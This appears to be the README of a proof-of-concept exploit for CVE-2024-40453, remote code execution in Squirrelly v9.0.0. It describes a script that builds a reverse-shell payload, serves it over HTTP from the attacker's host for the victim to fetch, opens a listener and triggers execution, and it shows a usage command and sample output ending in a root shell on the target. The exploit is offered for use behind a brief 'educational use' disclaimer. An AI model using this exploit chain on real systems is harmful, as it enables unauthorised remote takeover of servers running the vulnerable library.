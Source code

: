 # CVE-2024-40453
## CVE-2024-40453 - Squirrelly v9.0.0 RCE

This script creates a reverse shell called `payload.sh` in the current directory.

Then it hosts an http server on port 80 for the victim (`rhost + rport`) to pull the `payload.sh` from.

A listener is started on the attackers specified ip and port  `lhost + lport`

## TRUE POC / EXPLOIT 
Based on the following information, this POC was developed.
https://samuzora.com/posts/cve-2024-40453

## Disclaimer:
This script is for educational use only. 

Do not use it for illegal purposes. 

If you do, it’s entirely your responsibility; I am not liable for any misuse.

## USAGE
```
python3 poc.py -rhost 172.16.0.2 -rport 3000 -lhost 172.16.0.1 -lport 3000
[+] Payload created at payload.sh
[*] Hosting HTTP server on port 80
[*] Listening for reverse shell on 172.16.0.1:3000
[*] Triggering remote execution
[+] PWNed 172.16.0.2 !!
[!] Type 'exit' to leave the session
$ pwd
/home/ubuntu
root@ubuntu:~# $ whoami
root 
root@ubuntu:~# $ hostname
ubuntu
```

